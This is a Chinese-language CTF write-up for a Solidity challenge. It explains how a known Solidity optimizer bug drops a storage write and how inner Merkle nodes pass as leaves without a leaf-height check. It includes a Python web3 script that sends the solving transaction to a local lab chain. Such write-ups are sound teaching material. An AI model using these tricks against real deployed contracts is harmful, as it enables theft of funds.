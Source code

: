 # HappyTree

## 源码

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Greeter {
    uint256 public x;
    uint256 public y;
    bytes32 public root;
    mapping(bytes32 => bool) public used_leafs;

    constructor(bytes32 root_hash) {
        root = root_hash;
        //0xb57c9b430ecc5b184f7ab285b8c9ca898e3e528c4668d136ee0fab03ae716f86
    }

    modifier onlyGreeter() {
        require(msg.sender == address(this));
        _;
    }

    function g(bool a) internal returns (uint256, uint256) {
        if (a) return (0, 1);
        assembly {
            return(0, 0)
        }
    }

    function a(uint256 i, uint256 n) public onlyGreeter {
        x = n;
        g((n <= 2));
        x = i;
    }

    function b(
        bytes32[] calldata leafs,
        bytes32[][] calldata proofs,
        uint256[] calldata indexs
    ) public {
        require(leafs.length == proofs.length, "Greeter: length not equal");
        require(leafs.length == indexs.length, "Greeter: length not equal");

        for (uint256 i = 0; i < leafs.length; i++) {
            require(
                verify(proofs[i], leafs[i], indexs[i]),
                "Greeter: proof invalid"
            );
            require(used_leafs[leafs[i]] == false, "Greeter: leaf has be used");
            used_leafs[leafs[i]] = true;
            this.a(i, y);
            y++;
        }
    }

    function verify(
        bytes32[] memory proof,
        bytes32 leaf,
        uint256 index
    ) internal view returns (bool) {
        bytes32 hash = leaf;

        for (uint256 i = 0; i < proof.length; i++) {
            bytes32 proofElement = proof[i];

            if (index % 2 == 0) {
                hash = keccak256(abi.encodePacked(hash, proofElement));
            } else {
                hash = keccak256(abi.encodePacked(proofElement, hash));
            }

            index = index / 2;
        }

        return hash == root;
    }

    function isSolved() public view returns (bool) {
        return x == 2 && y == 4;
    }
}
```

## 题解

注：需要本地复现的话要开编译优化

```
./solc -o ./build --bin --abi --asm --via-ir --optimize Example.sol
```

看起来是一个验证MerkleTree的合约，目标是x == 2 && y == 4

成功验证一次 y++，x也会在 a() 函数里面改变，但是假如验证了4次，最后也会x=3, y=4，无法完成要求

这是solidity优化器的一个bug，参考：

[Storage Write Removal Bug On Conditional Early Termination | Solidity Programming Language (soliditylang.org)](https://soliditylang.org/blog/2022/09/08/storage-write-removal-before-conditional-termination/)

影响范围 0.8.13 ≤ version < 0.8.17

有代码如下

```js
contract C {
	uint public x;
	function f(bool a) public {
		x = 1; // This write is removed due to the bug.
		g(a);
    x = 2;
	}
	function g(bool a) internal {
		if (a) return;
		assembly { return(0,0) }
	}
}
```

在预期情况下，调用`f(false)`将使x变量值为1，但有Bug的实际结果为0

可见，该Bug使EVM 回退了 `x = 1;` 的Storage写入操作

`assembly { return(0, 0) }`，实际作用是终止整个交易，返回到最初始的caller

题目源码里采用 `this.a(i, y);` 而不是`a(i,y)`

因为这相当于发起了一个内联交易，停止的只是内联交易而不是整个我们的verify，因此不影响下一句 y++

根据以上bug，验证4次后确实能够完成x == 2 && y == 4，接下来是具体题解

题目给出了三个hash，再加上root可以读取，得到：

```
alice: 0x81376b9868b292a46a1c486d344e427a3088657fda629b5f4a647822d329cd6a
Bob:   0x28cac318a86c8a0a6a9156c2dba2c8c2363677ba0514ef616592d81557e679b6
Calor: 0x804cd8981ad63027eb1d4a7e3ac449d0685f3660d6d8b1288eb12d345ca2331d
root:  0xb57c9b430ecc5b184f7ab285b8c9ca898e3e528c4668d136ee0fab03ae716f86
```

先构造出整棵MerkleTree

```
							root
                          /		\
				(alice, bob)	(calor, calor)
				/		\			/		\
			alice		Bob		Calor		Calor
```

随便挑4条路径，也没有检查叶子的高度，直接拿root来验证都行

python脚本

```python
from web3 import Web3, HTTPProvider
import json
import requests
import time

SERVER_IP  = '192.168.21.128'    # change this
GETH_PORT  = '8545'
FAUCET_PORT = '8080'
web3 = Web3(Web3.HTTPProvider(f'http://{SERVER_IP}:{GETH_PORT}')) 
assert web3.isConnected()

private_key = "xxx"
account = web3.eth.account.from_key(private_key)
hacker, sk_hacker = account.address, account.key
print('[+] hacker:', hacker)
print('[+] hakcer key:', sk_hacker.hex())

assert(requests.post(f"http://{SERVER_IP}:{FAUCET_PORT}/api/claim", data={"address": account.address}).status_code == 200)
time.sleep(5)
balance = web3.eth.getBalance(account.address)
print(balance)

gas_price=5
gas_limit=6000000
challeng_address = "0xdBC0157B3f66aec5001F9975e756B83B1357dB98"
with open('challenge.abi', 'r') as f:
    abi = json.load(f)
challange = web3.eth.contract(address=challeng_address, abi=abi)

print(challange.caller.x())
print(challange.caller.y())
print(challange.caller.root().hex())
root = challange.caller.root().hex()

Alice = "0x81376b9868b292a46a1c486d344e427a3088657fda629b5f4a647822d329cd6a"
Bob = "0x28cac318a86c8a0a6a9156c2dba2c8c2363677ba0514ef616592d81557e679b6"
Calor = "0x804cd8981ad63027eb1d4a7e3ac449d0685f3660d6d8b1288eb12d345ca2331d"
ab = "0x9b1a0a45cfdc60f45820808958c1895d44da61c8f804f5560020a373b23ad51e"
cc = "0x4a35f5bda2916fbfac6936f63313cee16979995b2409de59ceda0377bae8c486"

tx = challange.functions.b([root, ab, cc, Alice], [[], [cc], [ab], [Bob, cc]], [0, 0, 1, 0]).buildTransaction({
    "from": account.address,
    'gasPrice': web3.toWei(gas_price, 'gwei'),
    "gas": gas_limit,
    "nonce": web3.eth.getTransactionCount(account.address),
    "value": web3.toWei(0, 'ether'),
})

signed_tx = account.signTransaction(tx)
tx_hash = web3.eth.sendRawTransaction(signed_tx.rawTransaction).hex()
print(tx_hash)

receipt = web3.eth.waitForTransactionReceipt(tx_hash)
assert receipt['status'] == 1
print('[+] receipt:', receipt)
print('[+] x:', challange.caller.x())
print('[+] y:', challange.caller.y())
```

